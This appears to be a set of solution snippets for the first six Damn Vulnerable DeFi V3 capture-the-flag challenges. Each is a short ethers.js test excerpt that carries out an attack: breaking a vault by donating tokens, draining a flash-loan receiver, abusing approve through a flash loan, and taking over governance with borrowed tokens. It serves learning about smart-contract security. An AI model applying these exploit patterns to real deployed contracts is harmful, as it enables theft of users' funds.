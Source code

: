 
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    this.attackerContract = await ( await ethers.getContractFactory("AttackTheRewarder", player)).deploy(
        flashLoanPool.address, rewarderPool.address, liquidityToken.address, rewardToken.address
    );
    await this.attackerContract.attack();
});
````

#Challenge #6

Selfie [ Damn Vulnerable DeFi V3 Challenge 6 Solution: Selfie Walkthrough Guide ]

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    
    this.attackContract = await (await ethers.getContractFactory("AttackSelfie", player)).deploy(
    pool.address, governance.address, token.address
    );
    await this.attackContract.attack();
    const ACTION_DELAY = 3 * 24 * 60 * 60 + 1;
    await time.increase(ACTION_DELAY);
    await governance.connect(player).executeAction(1);
});
````